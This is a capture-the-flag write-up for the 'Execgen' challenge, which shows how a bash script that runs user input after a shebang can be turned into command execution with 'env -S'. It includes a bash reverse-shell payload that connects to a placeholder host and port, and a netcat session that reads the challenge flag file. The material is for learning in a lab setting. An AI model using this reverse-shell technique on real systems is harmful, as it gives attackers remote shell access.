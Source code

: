 # Execgen writeup

Some technical details may be incorrect in this article.

## Task

Gave a script and try to escalate it. The flag file is at the same directory of the script.

```bash
#!/bin/bash
IFS=''

banner='
___________                      ________
\_   _____/__  ___ ____   ____  /  _____/  ____   ____
 |    __)_\  \/  // __ \_/ ___\/   \  ____/ __ \ /    \
 |        \>    <\  ___/\  \___\    \_\  \  ___/|   |  \
/_______  /__/\_ \\___  >\___  >\______  /\___  >___|  /
        \/      \/    \/     \/        \/     \/     \/
Create your script: '

echo -n $banner

# create the script, easy!
read -r script

# oh, don't forget to add watermark!
script+='(created by execgen)'

# run the script for you, sweet!
tmp=$(mktemp)
echo "#!$script" > "$tmp"
chmod 0755 "$tmp"
out=$("$tmp")
echo "$out"
rm "$tmp"
```

## Writeup

You can skip the trying part if you're in a hurry.

### Trying

This script will concat shebang at the front and '(created by execgen)' at the end of input. And it'll execute it and print the "output of the program". Note that the `-r` option passed to read command prevents backslash escapes from being interpreted. So we can execute something in "a line", and that's pretty different than the normal script.

And one more thing I found after contest is `IFS=''`, it's also a defense, maybe I'll explain below?

OK so let's try bash?

I modified script a little bit (print the script) when I'm testing in the sake of convenience.

```
___________                      ________
\_   _____/__  ___ ____   ____  /  _____/  ____   ____
 |    __)_\  \/  // __ \_/ ___\/   \  ____/ __ \ /    \
 |        \>    <\  ___/\  \___\    \_\  \  ___/|   |  \
/_______  /__/\_ \\___  >\___  >\______  /\___  >___|  /
        \/      \/    \/     \/        \/     \/     \/
Create your script: /bin/bash 
The script would be
/bin/bash (created by execgen)
The output would be


```

Hmm, no output? That's weird.(Of course, I have no exception about the output of bash(?)) What about cat?

```
___________                      ________
\_   _____/__  ___ ____   ____  /  _____/  ____   ____
 |    __)_\  \/  // __ \_/ ___\/   \  ____/ __ \ /    \
 |        \>    <\  ___/\  \___\    \_\  \  ___/|   |  \
/_______  /__/\_ \\___  >\___  >\______  /\___  >___|  /
        \/      \/    \/     \/        \/     \/     \/
Create your script: /bin/cat 
The script would be
/bin/cat (created by execgen)
The output would be
#!/bin/cat (created by execgen)

```

Err... It seems it's strange.

UPD: I canceled `exec 2>/dev/null` in run.sh so that the error message is shown below

```
___________                      ________
\_   _____/__  ___ ____   ____  /  _____/  ____   ____
 |    __)_\  \/  // __ \_/ ___\/   \  ____/ __ \ /    \
 |        \>    <\  ___/\  \___\    \_\  \  ___/|   |  \
/_______  /__/\_ \\___  >\___  >\______  /\___  >___|  /
        \/      \/    \/     \/        \/     \/     \/
Create your script: /bin/cat 
The script would be
/bin/cat (created by execgen)
The output would be
/bin/cat: '(created by execgen)': No such file or directory
#!/bin/cat (created by execgen)


```

And I tested in locally:

```
$ cat (ddd fdfasdf)       
zsh: number expected

```

It seems that if we bracket it, it would be something like environment variable.


### Exploit

I cannot make use of the output in the shell now, so let's move backward: "... And it'll **execute** it and print the "output of the program".:

So actually we can exploit it without regard to the output! Why? Reverse Shell!!!

Then I found this [interesting article](https://stackoverflow.com/a/52979955): You can execute any command normally at the same line with shebang with `#!/usr/bin/env -S command arg1 arg2 ...`.

The rest is easy: find a reverse shell on [this website](https://www.revshells.com/) and connect back to your server.

And what about the details of payload? We have some garbage arguments at the end of our command.

Shout out to [John Hammond](https://www.youtube.com/@_JohnHammond), this trick is inspired from [his video](https://youtu.be/mEGnhfOX-xs?t=797)

```
-c        If the -c option is present, then commands are read from the first non-option argument command_string.  If there are arguments after the
         command_string, the first argument is assigned to $0 and any remaining arguments are assigned to the positional parameters.  The assignment to $0 sets the name of the shell, which is used in warning and error messages.
-i        If the -i option is present, the shell is interactive.

```

So we can use `-c` option to run the first argument captured, reverse shell get! You can learn about reverse shell and IFS variable in bash in the above video.

## POC

### Payload

Please modify the contents in the curly brackets.

`usr/bin/env -S bash -c 'bash -i >& /dev/tcp/{host}/{port} 0>&1' {space_character}`

### Flag

`FLAG{t0o0oo_m4ny_w4ys_t0_g37_fl4g}`

## Other solution

### bash + cat

Using bash + cat is also a solution

```
$ nc edu-ctf.zoolab.org 10123

___________                      ________
\_   _____/__  ___ ____   ____  /  _____/  ____   ____
 |    __)_\  \/  // __ \_/ ___\/   \  ____/ __ \ /    \
 |        \>    <\  ___/\  \___\    \_\  \  ___/|   |  \
/_______  /__/\_ \\___  >\___  >\______  /\___  >___|  /
        \/      \/    \/     \/        \/     \/     \/
Create your script: usr/bin/env -S bash -c 'cat /home/chal/flag' 
FLAG{t0o0oo_m4ny_w4ys_t0_g37_fl4g}
```

## /bin/script

From [this writeup](https://hackmd.io/@dalun/rkmKeDd5s#Execgen), and actually this is also the solution of execgen-safe.

Execgen-safe is the problem similar to this problem but the input only allows English characters, numbers, slashes and spaces. You can try this harden version yourself.
 